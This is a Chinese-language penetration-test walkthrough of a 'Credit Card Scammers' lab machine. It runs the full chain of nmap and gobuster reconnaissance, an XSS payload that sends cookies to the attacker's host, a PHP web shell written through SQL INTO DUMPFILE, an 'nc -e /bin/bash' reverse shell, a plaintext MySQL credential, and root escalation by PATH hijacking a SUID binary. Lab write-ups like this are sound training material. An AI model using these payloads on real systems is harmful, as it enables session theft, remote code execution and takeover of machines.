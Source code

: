 # Credit Card Scammers 靶场

# 服务扫描

扫描所执行的命令，执行结果如下

```
sudo nmap -sn 10.10.10.0/24

sudo nmap --min-rate 10000 -p- 10.10.10.31   

sudo nmap -sC -sT -sV -p22,80,443,9090 10.10.10.31 

sudo nmap --script=vuln -p22,80,443,9090 10.10.10.31 
```

![[Pasted image 20250518231731.png]]

## gobuster 爆破目录

在漏洞扫描中发现了许多目录，因此进行更详细的目录爆破

```
sudo gobuster dir -u http://10.10.10.33 -w /usr/share/wordlists/dirb/common.txt
```

![[Pasted image 20250518231937.png]]

# Web 渗透

审计爆破的目录发现在 admin 下有一个登入界面

![[Pasted image 20250518232104.png]]

默认界面能找到提交表单

![[Pasted image 20250518232249.png]]

尝试 XSS 

```
<script>new Image().src="http://10.10.10.5/?c="+document.cookie;</script>
```

![[Pasted image 20250518232421.png]]

kali 架设连接

```
python3 -m http.server 80
```

![[Pasted image 20250518232526.png]]

修改 cookie 登入

![[Pasted image 20250518232609.png]]

注入 sql 反弹 shell

```
SELECT "<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE '/var/www/html/shell.php'
```

```
http://10.10.10.33/shell.php?cmd=pwd
```

![[Pasted image 20250518232715.png]]

连接 shell ，因为防火墙墙掉了不常见端口，因此使用 443 端口

```
nc -e /bin/bash 10.10.10.5 4444
```

以下是提权一阶段代码

```
cat /etc/passwd |grep "/bin/bash"

cd settings

ls

cat config.php
```

![[Pasted image 20250518233122.png]]

```
mysql -uorders -pOb2UA15ubBtzpZrvdMYT orders -e 'SELECT * from users;' 
```

![[Pasted image 20250518233241.png]]

john 破解

![[Pasted image 20250518233304.png]]

ssh 登入

![[Pasted image 20250518233519.png]]

二阶段提权

```
find / -perm -u=s -type f 2>/dev/null

ls

strings /usr/bin/backup

export PATH=.:$PATH

echo $PATH

cd /tmp 

echo '/bin/bash' > tar

chmod 777 tar

/usr/bin/backup
```

![[Pasted image 20250518234002.png]]

拿下机器